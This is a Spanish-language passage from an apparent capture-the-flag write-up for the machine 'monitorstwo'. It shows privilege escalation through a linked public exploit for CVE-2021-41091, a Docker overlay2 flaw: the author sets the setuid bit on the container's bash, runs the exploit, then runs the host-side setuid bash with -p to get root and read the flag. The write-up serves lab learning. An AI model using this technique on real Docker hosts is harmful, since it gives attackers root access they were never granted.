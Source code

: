 Por otro lado, nos encontramos con el siguiente exploit en Bash que nos guiaba en la explotación, ya que está realizado de una manera más automatizada.

{% embed url="https://github.com/UncleJ4ck/CVE-2021-41091" %}

Al ejecutar el exploit, se nos indica que le hayamos otorgado el `setuid` al `/bin/bash` del contenedor de Docker. Una vez realizada esta verificación, se nos indicará el `Vulnerable Path` y cómo abusar de esta vulnerabilidad.

Ejecutaremos la `bash`modificada del contenedor de Docker y logramos obtener el acceso como usuario `root` en el sistema objetivo y no el contenedor de Docker.

```bash
marcus@monitorstwo:/tmp$ ./exploit.sh 
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:/tmp$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
cb9953909ed*************************
```
